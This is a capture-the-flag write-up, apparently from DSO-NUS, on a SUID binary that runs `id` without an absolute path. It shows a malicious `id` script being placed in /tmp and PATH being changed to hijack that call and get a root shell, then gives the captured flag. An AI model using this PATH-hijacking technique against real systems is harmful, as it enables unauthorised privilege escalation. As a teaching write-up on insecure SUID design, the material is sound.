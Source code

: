```yaml
---
description: Privilege escalation through SUID files and PATH variable manipulation
---
```


# Insecure \(100\)

## Problem

Someone once told me that SUID is a bad idea. Could you show me why?

{% file src="../../.gitbook/assets/insecure.bin" %}

## Solution

The binary calls the `id` command three times, first without privileges, then as root, then again without privileges.

Since the SUID flag is set, we can manipulate the PATH variable to execute arbitrary code when `id` is called. The goal is to read the `flag.txt` file which requires root access. Thus, we need to spawn a shell as root. 

The following bash script will only spawn the shell if the caller is root.

```bash
if [ `/bin/id -u` = "0" ]; then 
    echo "I am root" && /bin/bash
else 
    echo "I am not root"
fi
```

Translating this into a one liner and creating our malicious `id` payload:

```bash
$ echo "if [ \`/bin/id -u\` = \"0\" ]; then echo \"I am root\" && /bin/bash; else echo \"I am not root\"; fi" > id
```

PATH variable manipulation:

```bash
$ cd /tmp
$ echo "if [ \`/bin/id -u\` = \"0\" ]; then echo \"I am root\" && /bin/bash; else echo \"I am not root\"; fi" > id
$ chmod 777 id
$ export PATH=/tmp:$PATH
```

After running `insecure`, we obtain a root shell:

```bash
I am not root
I am root

$ cat /flag.txt
DSO-NUS{b4fcfe57b8d2b05ff3310c663a0497b1026cf039baeee18669957152cdc276da}
```

